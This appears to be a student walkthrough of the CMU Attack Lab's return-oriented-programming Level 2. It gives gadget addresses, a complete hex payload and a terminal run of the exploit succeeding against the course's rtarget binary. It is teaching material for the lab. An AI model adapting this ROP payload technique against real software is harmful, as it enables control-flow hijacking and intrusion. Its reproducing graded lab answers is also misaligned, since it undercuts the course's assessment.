

# Part II: Return-Oriented Programming

## Level 2

In this phase, we are actually repeating the second phase of the code injection attack, hijacking the program flow, and returning to the `touch2` function. But what we have to do is a ROP attack. At this stage, we can no longer put the instruction sequence on the stack as in the previous stage, so we need to find the instruction sequence we need in the existing program.

If you don’t understand any ROP attacks, please read the [README](../README.md) again.

The code sequence we need is as follows:

```Assembly
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```

We can get `popq %rax` in `0x4019ab`:

```Assembly
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3
```

We can get `movq %rax, %rdi` in `0x4019a2`:

```Assembly
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3
```

So, our payload is that:

```Text
# Remove "# ..." when you test the code
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
ab 19 40 00 00 00 00 00 # gadget 1
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # gadget 2
ec 17 40 00 00 00 00 00 # address of touch2
```

And in the stack frame, its structure is as follows:



```Shell
attack_lab/part2# vim solution4.hex
attack_lab/part2# ./hex2raw -i solution4.hex > solution4.raw
attack_lab/part2# ./rtarget -q < solution4.raw
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
attack_lab/part2#
```

## Level 3

In fact, Level 3 is a complex situation of Level 2, and we will treat it as an open experiment here and do not provide answers.

Good luck and have fun!